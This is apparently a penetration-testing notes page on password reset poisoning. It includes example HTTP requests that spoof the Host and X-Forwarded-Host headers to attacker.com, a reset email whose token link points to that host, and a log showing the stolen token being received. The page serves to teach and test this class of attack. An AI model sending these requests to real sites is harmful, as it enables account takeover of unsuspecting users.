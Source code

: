 >[!abstract]
>Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

## Techniques

- [Host Header attacks](Host%20Header%20attacks.md)
- Poisoning via middleware (`X-Forwarded-Host`, `X-Forwarded-For`, `X-Remote-IP`, `X-Remote-Addr`, `X-Originating-IP`): consider using [Collaborator Everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968#:~:text=This%20extension%20augments%20your%20in,and%20browse%20the%20target%20website.)
- [Dangling markup injection](Cross-Site%20Scripting%20(XSS).md#Dangling%20markup%20injection)

>[!warning]
>Some time automated mail filters click link instead of the user!

# Examples

## Password reset poisoning exploiting host header injection

```http
POST /forgot-password HTTP/2
Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victim
```

Spoofed Host header used to send the password reset secret-token:
> Hello! 
> Please follow the link below to reset your password.
> https://attacker.com/forgot-password?temp-forgot-password-token=YeVH5sp94doHd9wlrPhpL7xIwPZmZ5DJ
> Thanks,
> Support team

If the user clicks, attackers can takeover his account:
```
...
10.0.3.75       2023-04-01 15:17:59 +0000 "GET /forgot-password?temp-forgot-password-token=yd7scgKr0YB4Gkfxc9qPGwyQTZpkVgTL HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"
...
```

## Password reset poisoning via middleware

```http
POST /forgot-password HTTP/2
Host: real.site.com
X-Forwarded-Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victims
```

Spoofed `X-Forwarded-Host` header used to send the password reset secret-token. If the user clicks, attackers can takeover his account.